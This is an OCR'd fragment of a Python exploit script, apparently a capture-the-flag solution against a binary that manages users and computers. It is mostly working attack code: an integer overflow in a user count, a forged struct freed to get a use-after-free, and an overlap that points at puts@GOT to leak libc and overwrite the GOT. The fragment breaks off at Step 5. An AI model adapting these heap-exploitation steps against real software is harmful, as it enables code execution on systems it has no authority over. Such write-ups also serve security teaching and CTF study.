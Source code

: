 ```Python
		9) Partially overwrite a GOT entry using `edit_details()`
	   10) Profit :)

	'''

	libc = ELF('./libc-2.23.so')
	print ''

	# --------------------- Step 0 ----------------------------
	# Add a computer that will overlap with the overflowed user
	# ---------------------------------------------------------

	buy_premium('user0', 100)
	buy_computer(0, 'computer0', 'manufacturer0', 'Y', 100, 'Y') # to get computers_bitmap[i] != 0

	# ----------- Step 1 -----------
	#   Add enough Premium Users
	# ------------------------------
	amount = 100
	name_list = [str(num+1) for num in xrange(amount)]
	money_list = [100]*amount
	buy_multiple_premiums(amount, amount, name_list, money_list)

	# ----------- Step 2 -----------
	#   Cause Integer Overflow
	# ------------------------------
	actual_amount = 1060 # This causes an overflow and changes `user_count` to 1152 (==1024+128), which is the index to the first computer in `computers_array`
	name_list = [str(100+num+1) for num in xrange(actual_amount)]
	money_list = [100]*actual_amount
	amount = 65535
	buy_multiple_premiums(amount, actual_amount, name_list, money_list) # overflow and fake a computer
	
	# ------------------------- Step 3 ------------------------------------
	#   Edit the `money` member of the overlapping user to be 0,
	#   This will change the `owners` member of the computer to be 0.
	# 	And this allows freeing the `user` when calling `return_computer`
	# ---------------------------------------------------------------------
	edit_details(1152, 'pwn', 0) # edit the user to change the `owners` member of the fake computer to be 0
	return_computer(1, 'fake') # trigger free() on forged computer
	
	# --------------------------- Step 4 ---------------------------------------
	#   Allocate a new user.
	#   The `name` member will overlap with the WHOLE FREED `user struct`.
	#	So, we make the `name` of the new user to have the address of 
	#	A GOT entry, and therefore, the old `name` will point to the GOT.
	# 	(This is true because the `name` is the first element in `user struct`
	# --------------------------------------------------------------------------
	puts_got = 0x604028
	amount = 65536 - (1060+100+1)
	actual_amount = 1
	name_list = [p64(puts_got)]
	money_list = [100]
	
	# The old struct overlaps with the new string!
	# Therefore, puts@GOT will be where the old `char* name` of #1152 was!
	buy_multiple_premiums(amount, actual_amount, name_list, money_list) 	
	
	# -------------------------- Step 5 --------------------------------------
	# 	Print the details of the FREED user, and we'll leak a libc address,
	#	Change the details of the FREED user, and we'll overwrite the GOT!
```
